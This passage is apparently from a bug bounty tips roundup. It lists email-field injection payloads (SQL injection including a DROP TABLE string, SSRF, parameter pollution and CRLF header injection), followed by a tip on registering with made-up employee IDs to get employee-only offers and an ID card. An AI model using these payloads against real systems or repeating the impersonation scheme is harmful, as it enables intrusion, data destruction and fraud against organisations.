 SQL injection:

```bash
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):

```bash
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

Parameter pollution:

```bash
victim&email=attacker@example.com
```

(Email) header injection:

```bash
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

This is pure gold!

## 9\. From employee offers to ID card

By [@silentbronco](https://twitter.com/silentbronco)  
Source: [link](https://twitter.com/silentbronco/status/1276941262843637761)

Registering as an Employee leads to claim of Employee Only Private Offers and ultimately getting an “Identification Card”.

Here’s what [@silentbronco](https://twitter.com/silentbronco) did exactly:

1.  Searched for **Target**‘s employee offers on Google:
    
    ```bash
    inurl:"Target Name" employee offers
    ```
    
2.  Found website which provides offers to the **Target**.
3.  Found that offers were restricted to employees only.
4.  Tried registering with random numbers in the “**Employee ID**” field
5.  Successfully registered as an employee because of no verification of the “**Employee ID**“.
6.  Registering as an employee leads to claim of private offers.
7.  The website also provides an “**Identification Card**” which can be used to show that we are a legitimate employee of the **Target**.

Next time when you are struggling with getting a foothold into an organization, try looking for their employee offers like [@silentbronco](https://twitter.com/silentbronco).

## 10\. Find RocketMQ consoles with Shodan

By [@debangshu\_kundu](https://twitter.com/debangshu_kundu)  
Source: [link](https://twitter.com/debangshu_kundu/status/1276434960241397761)
